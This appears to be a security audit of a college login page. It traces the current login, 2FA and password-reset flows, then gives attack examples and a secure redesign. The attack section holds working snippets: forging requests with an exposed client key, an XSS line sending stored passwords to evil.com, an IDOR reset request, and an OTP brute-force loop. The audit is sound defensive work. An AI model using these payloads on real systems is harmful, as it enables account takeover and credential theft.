

# NNRG Login - Current vs Attack vs Secure Flow (with Example)

Target: `nnrg_beessoftware_cloudilyaunited_raw.html`
Example user: `faculty01` / `Faculty@123`

---
## 1. Current Flow (as coded today)

### 1A. Normal Login
```
1. GET /CloudilyaUnited/Login/Login -> HTML contains:
   - meta enc-key=b7e15... [716]
   - __RequestVerificationToken=CfDJ8... [701,817,1020]
   - localStorage read userName/password if RememberMe [1126:1129]

2. User types faculty01 / Faculty@123, clicks #btn_Login [1155]
   ForGotPasswordValidations() [2411] checks empty only

3. RememberMe checked? -> localStorage.setItem('password','Faculty@123') [1171:1174] // PLAINTEXT

4. AJAX POST /CloudilyaUnited/Login/Login [1182]:
   { UserName:'faculty01', Password:'Faculty@123', RememberMe:true } // CLEAR, no EncryptionHelper, no CSRF header

5. Server returns one of:
   a) {success:true, redirectUrl:'/Home'} -> window.location.href [1200]
   b) {login:3, challengeId:'abc123', email:'f***@gmail', phoneNumber:'98***'} -> 2FA mode [1212]
   c) {login:1|2, reload:'Click'} -> $('#loginModal').modal('show') [1295,1327]
   d) else -> $('#span_invalid').text(errorMessage) [1345]
```

### 1B. Employee 2FA (login==3)
```
6. JS sets employee2FAMode=true, employee2FAChallengeId='abc123' [1214:1219]
   Hides #loginFormMain, shows #Otpcard [1261:1267], clears 6 boxes

7. User enters 6 boxes #first..#sixth [1585:1591], validates /^\d{6}$/ [1598]

8. POST /CloudilyaUnited/Login/Verify2WayOtp [1628]:
   headers: RequestVerificationToken
   { otp:'482910', challengeId:'abc123', username:'faculty01', password:'Faculty@123' } // password resend

9. Success -> redirect. Wrong -> clear boxes, show #err_otpmsg. Expired -> back to login after 1800ms [1703]
```

### 1C. Forgot Password (Captcha -> OTP -> Reset)
```
10. #btn_forgot click [1908] -> ForgotUsernameValidation() -> hide login, show #captchaCard [1914], load /Login/GetCaptcha?timestamp [1916]

11. #btnVerifyCaptcha [1925] POST /Login/VerifyCaptcha {captcha} // NO CSRF header [1937]

12. Success -> SendOTPAfterCaptcha() [1953]:
    EncryptionHelper.encrypt({UserName:'faculty01'}) [2008] with meta key + random IV -> {encryptedData}
    POST /Login/Forgotpassword {encryptedData} + CSRF header [2013:2024]

13. Response.data is AES-encrypted -> decrypt [2027], parse list[0] {colCode,collegeId,employeeId,adminUserId,userName,userType,email,phoneNumber} [2042:2058] -> stored in window globals (no let/const)
    Client masks email/mobile for display [2118:2162], Swal "OTP Sent" [2082], show #Otpcard

14. #btn_OTPSubmit / #btn_OTP path + #btn_LoginConfirm [1842]:
    builds encryptedData [1846] BUT sends plain [1859:1870]:
    {UserId:forgotempid, AdminUserId:forgotadminid, UserName:..., NewPW:plain, ConfirmPassword:plain}
    resetToken from [2033] never sent.
    Success -> hide modal, clear #txt_UserName/#txt_Password [1886]
```

---
## 2. Attack Flow Example (how it will be exploited)

### Example 1: Decrypt + Forge Forgot Flow (enc-key public)
```js
// Attacker opens DevTools, copies key:
keyHex = document.querySelector('meta[name="enc-key"]').content
// b7e151628aed2a6abf7158809cf4f3c762e7160f38b4da56a78e3b8e3ae59cba

// 1. Intercept Forgotpassword response.data (Base64 IV+Ciphertext)
// 2. In console:
decrypted = EncryptionHelper.decrypt(response.data)
// -> {"passwordDetailsOTPList":[{"employeeId":1021,"adminUserId":5,"email":"faculty01@nnrg.edu","phoneNumber":"9849012345"...}],"resetToken":"xyz"}
// Full PII now known despite masking. Attacker gets real email/mobile.

// 3. Forge:
evil = EncryptionHelper.encrypt({UserName:'principal01'})
fetch('/CloudilyaUnited/Login/Forgotpassword',{method:'POST',body:'encryptedData='+evil})
// Valid encryption, server accepts - no client secret.
```

### Example 2: XSS -> Steal RememberMe passwords
```js
// Victim checked RememberMe once -> localStorage:
// localStorage.getItem('password') == 'Faculty@123'

// Injected via compromised CDN / stored XSS (no CSP - see nnrg_security_analysis.md:47):
fetch('https://evil.com/?u='+localStorage.getItem('userName')+'&p='+localStorage.getItem('password'))
// + inline onerror="..." [760], console.log [1355] help exfiltration.
// Fix requires CSP + no plaintext storage; today both missing.
```

### Example 3: Reset Hijack (IDOR, no token binding)
```http
POST /CloudilyaUnited/Login/ConfirmForgotPassword
UserId=1021&AdminUserId=5&UserName=faculty01&NewPW=Hacked@123&ConfirmPassword=Hacked@123
// Attacker changes UserId=1022 (principal), replays. resetToken not validated, encryptedData not sent.
// Server trusts IDs -> password overwritten for other user.
```

### Example 4: OTP brute-force + info leak
```
// alert(OTP) at Relode():2751 exposes OTP in debug builds.
// Verify2WayOtp takes client challengeId+username, no visible rate-limit.
// Attacker loops 000000-999999 with challengeId='abc123':
for(otp in 000000..999999) POST {otp, challengeId, username:'faculty01', password:'guess'}
// Wrong vs expired distinguishable via {sessionExpired:true} vs {message:'Invalid OTP'} [1693:1715] -> oracle.
```

Mermaid:


---
## 3. Secure Fixed Flow (what it should be)

```
1. GET login -> NO enc-key, NO preload password. HttpOnly Secure cookies only. CSP header.

2. POST /Login/Login {username, password} over TLS + CSRF header + rate-limit + generic error "Invalid credentials" (no enumeration).

3. If 2FA needed: server creates challenge bound to HttpOnly session, NOT to client JS var:
   Set-Session: sid=random; challenge=hash(sid+user+expiry) server-side only
   Return {maskedContact} only. Client stores nothing.

4. POST /Verify2WayOtp {otp} + cookies only (no username/password/challengeId from client). Server validates attempt count (5 tries -> lock 15m).

5. Forgot: Captcha + CSRF -> server sends OTP, returns ONLY masked contact + opaque resetId. No full email/phone, no client decrypt.

6. POST /ConfirmForgotPassword {resetId, otp, newPassword} - server validates resetId+otp+expiry, enforces 8+char+complexity, hashes with Argon2/bcrypt. No UserId/AdminUserId from client.
```

Secure code sketch:
```js
// NO EncryptionHelper, NO localStorage password
$('#btn_Login').on('click', async e=>{
  e.preventDefault();
  const res = await fetch('/CloudilyaUnited/Login/Login',{
    method:'POST',
    headers:{'Content-Type':'application/json','RequestVerificationToken':token()},
    credentials:'same-origin',
    body: JSON.stringify({userName:u.value, password:p.value}) // TLS protects, server hashes
  });
  // server sets HttpOnly session, returns {next:'otp'|'home'}
});

// OTP verify - session-bound
await fetch('/CloudilyaUnited/Login/Verify2WayOtp',{
  method:'POST', credentials:'same-origin',
  headers:{'RequestVerificationToken':token()},
  body: JSON.stringify({otp: boxes.join('')}) // no challengeId, no password
});

// Reset - token-bound
await fetch('/CloudilyaUnited/Login/ConfirmForgotPassword',{
  method:'POST', credentials:'same-origin',
  headers:{'RequestVerificationToken':token()},
  body: JSON.stringify({resetId: serverIssuedId, otp, newPassword})
});
```

| Issue | Today | Secure |
|---|---|---|
| Key | public meta [716] | none client, server HSM |
| Remember | localStorage PW [1171] | HttpOnly cookie |
| Login POST | clear + no CSRF [1182] | TLS + CSRF + rate-limit |
| 2FA | client challengeId+PW [1638] | session-bound, OTP only |
| Reset | plain IDs, no token [1863] | resetId+OTP validated |
| PII | full email/phone to JS [2056] | masked server-side only |
| OTP | alert() [2752] | never to client log |

Store alongside: `nnrg_security_analysis.md`, `nnrg_code_audit_issues_errors_flaws.md`.
